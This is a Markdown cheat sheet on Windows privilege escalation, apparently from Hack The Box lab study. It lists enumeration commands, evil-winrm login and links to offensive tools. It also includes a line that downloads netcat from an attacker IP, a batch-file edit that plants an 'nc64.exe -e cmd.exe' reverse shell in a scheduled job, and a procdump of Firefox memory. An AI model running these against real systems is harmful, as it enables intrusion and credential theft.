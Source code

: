```yaml
---
icon: windows
hidden: true
---
```


# Windows Privilege Scalation

### <mark style="color:purple;">Get a copy from</mark> <mark style="color:red;">`Hacktricks`</mark> <mark style="color:purple;">list ready, as well as</mark> <mark style="color:blue;">`Winpeas`</mark><mark style="color:purple;">:</mark>

{% embed url="https://raw.githubusercontent.com/HackTricks-wiki/hacktricks/refs/heads/master/windows-hardening/checklist-windows-privilege-escalation.md" %}

{% embed url="https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md" %}

***



























Basic Enumeration

```powershell
#Enumerate Privileges

whoami/priv

#File Privilages

icacls {FILENAME}

#Enumerate Scheduled TASKS

schtasks

#Hidden Files

dir -a

#OS information

wmic os list brief

Get-WmiObject -Class Win32_OperatingSystem | select SystemDirectory,BuildNumber,SerialNumber,Version | ft

#User SID

Get-CimInstance -ClassName Win32_UserAccount -Filter "Name='bob.smith'" | Select-Object SID

#Group SID

$group = Get-WmiObject -Query "SELECT * FROM Win32_Group WHERE Name = 'HR'"
$group.SID
```

Powershell

```powershell
#Running Process

ps

#Download files

wget [<http://CHANGEIP/nc64.exe>](<http://10.10.14.3/nc64.exe>) -outfile nc64.exe

#Modify File

echo C:\\Log-Management\\nc64.exe -e cmd.exe 10.10.14.3:1234 > C:\\Log-Management\\job.bat
```

HTB module

```powershell
#RDP to lab target
xfreerdp /v:<target IP address> /u:htb-student /p:<password>

#Get information about the operating system
Get-WmiObject -Class win32_OperatingSystem

#View all files and directories in the c:\\ root directory
dir c:\\ /a

#Graphically displaying the directory structure of a path
tree <directory>

#Walk through results of the `tree` command page by page
tree c:\\ /f \\| more

#View the permissions set on a directory
icacls <directory> 

#Grant a user full permissions to a directory 
icacls c:\\users /grant joe:f

#Remove a users permissions on a directory
icacls c:\\users /remove joe

#PowerShell` cmdlet to view running services
Get-Service

#Display the help menu for a specific command
help <command>

#List `PowerShell` aliases
get-alias

#Create a new `PowerShell` alias
New-Alias -Name "Show-Files" Get-ChildItem 

#View imported `PowerShell` modules and their associated commands
Get-Module \\| select Name,ExportedCommands \\| fl

#View the `PowerShell` execution policy 
Get-ExecutionPolicy -List

#Set the `PowerShell` execution policy to bypass for the current session
Set-ExecutionPolicy Bypass -Scope Process

#Get information about the operating system with `wmic`
wmic os list brief

#Call methods of `WMI` objects 
Invoke-WmiMethod

#View the current users' SID
whoami /user

#View information about a registry key 
reg query <key>

#Check which `Defender` protection settings are enabled
Get-MpComputerStatus

#Load Server Configuration menu in Windows Server Core
sconfig 
```

Remote Management

```python
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```

Process Enumeration

```python
#List Process
ps
get-process
#dump the process memory
./procdump.exe -accepteula -ma 6360 firefox.dmp
```

Look for streams

```bash
dir /R

#You can reead the stream pipping it into more
more < hm.txt:root.txt
```

Mdbtools

```bash
#install
apt install mdbtools
#list programs
mdb- <backup>
#List tables
mdb-tables <databasename>
#dumb
mdb-export <databasename> <tablename>
#Lool to enumerate
mdb-tables backup.mdb | tr ' ' '\\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
```

[Online Access DB Opener](https://www.mdbopener.com/)

Tools:

{% embed url="https://www.kali.org/tools/nishang/" %}

{% embed url="https://github.com/0xAnomaly/KerbSpray" %}
